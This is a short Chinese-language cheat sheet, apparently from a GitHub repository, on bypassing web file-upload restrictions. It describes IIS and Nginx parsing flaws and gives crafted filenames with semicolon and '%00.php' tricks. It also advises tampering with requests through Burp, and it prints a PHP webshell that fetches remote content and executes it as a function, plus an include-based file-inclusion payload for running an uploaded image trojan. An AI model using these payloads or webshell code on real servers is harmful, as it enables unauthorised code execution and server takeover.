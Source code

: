#### IIS解析漏洞

```
IIS6.0在解析asp格式的时候有两个解析漏洞，一个是如果目录名包含".asp"字符串，
那么这个目录下所有的文件都会按照asp去解析，另一个是只要文件名中含有".asp;"
会优先按asp来解析
IIS7.0/7.5是对php解析时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL
后面追加上字符串"/任意文件名.php"就会按照php的方式去解析；
```

#### Nginx解析漏洞

```
解析： (任意文件名)/(任意文件名).php | (任意文件名)%00.php
描述：目前Nginx主要有这两种漏洞，一个是对任意文件名，在后面添加/任意文件名.php
的解析漏洞，比如原本文件名是test.jpg，可以添加为test.jpg/x.php进行解析攻击。
还有一种是对低版本的Nginx可以在任意文件名后面添加%00.php进行解析攻击。
```

#### 解析漏洞

```
Content-Disposition: form-data; name="file";  filename=php.php;.jpg
```

### 前端限制绕过

```
1.使用BURP抓包修改后重放
2.或者使用浏览器中元素审查，修改允许或禁止上传文件类型。
```

### 下载绕过

远程下载文件绕过

```
<?php
$str = file_get_contents('http://127.0.0.1/ian.txt');
$str($_post['ian']);
?>
```

### 文件包含绕过

```
上传图片木马
$x=$_GET['x'];
include($x);
访问:http://www.xxxx.com/news.php?x=xxxxxx.jp
```